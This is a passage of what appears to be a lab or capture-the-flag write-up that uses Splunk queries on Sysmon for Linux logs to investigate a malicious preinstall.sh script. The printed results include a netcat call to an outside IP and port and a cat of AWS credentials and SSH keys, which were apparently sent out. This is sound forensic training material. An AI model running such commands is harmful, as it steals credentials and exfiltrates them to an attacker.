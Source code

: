 Result2:
| ParentProcessId |
| 6788            |

Query3:
```bash
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=1 ParentProcessId=6788 
| table CommandLine
```

Result3:
| CommandLine |
| ----------- |
| `nc -q1 54.175.69.219 16842` |
| `cat /home/eddie/.aws/credentials /home/eddie/.ssh/authorized_keys /home/eddie/.ssh/config /home/eddie/.ssh/eddie /home/eddie/.ssh/eddie.pub /home/eddie/.ssh/known_hosts` |

The lazy query:
```bash
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=1 ParentProcessId=6788 CommandLine="cat*"
| eval temp=split(CommandLine," ")
| mvexpand temp
| stats count AS len
| eval args = len - 1
| table args
```

The lazy result:
| args |
| ---- |
| 6    |

Answer:
6

#### 9.3.7. Task 8
Use Splunk and Sysmon Process creation data to identify the name of the Bash script that accessed sensitive files and (likely) transmitted them to a remote IP address.

Query:
```bash
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=1 ProcessId=6788 
| table ParentCommandLine
```

Result:
| ParentCommandLine         |
| ------------------------- |
| `/bin/bash preinstall.sh` |

